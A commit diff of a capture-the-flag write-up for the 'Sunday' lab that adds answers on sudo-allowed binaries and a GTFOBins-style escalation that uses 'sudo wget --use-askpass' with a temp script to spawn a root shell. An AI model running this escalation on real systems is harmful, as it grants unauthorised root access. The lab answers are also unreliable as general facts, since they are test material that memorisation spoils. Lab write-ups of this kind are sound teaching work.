

Before and after one commit to Cybertas/WriteUps, a Markdown page: Easy/Sunday/writeup.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Update to Sunday

````diff
--- a/Easy/Sunday/writeup.md
+++ b/Easy/Sunday/writeup.md
@@ -73,8 +73,23 @@ Q4: What is the password for sammy
 ```
 
 Q5: What is flag located in sammy's home directory
+ - cat user.txt
 
+Q6: What is the full path of the binary that user sunny can run with sudo privileges?
+ - /root/troll
 
+Q7: What is the complete path of the binary that user sammy can run with sudo privileges?
+ - /usr/bin/wget
+
+Q8: Submit the flag located in root's home directory.
+- https://gtfobins.github.io/gtfobins/wget/
+- since sammy is able to run wget as sudo without password then we can attempt to escalate the privilege by using wget
+```
+TF=$(mktemp)
+chmod +x $TF
+echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
+sudo wget --use-askpass=$TF 0
+```
 
 
 ### Post Exploitation Note - Lesson Learned
````
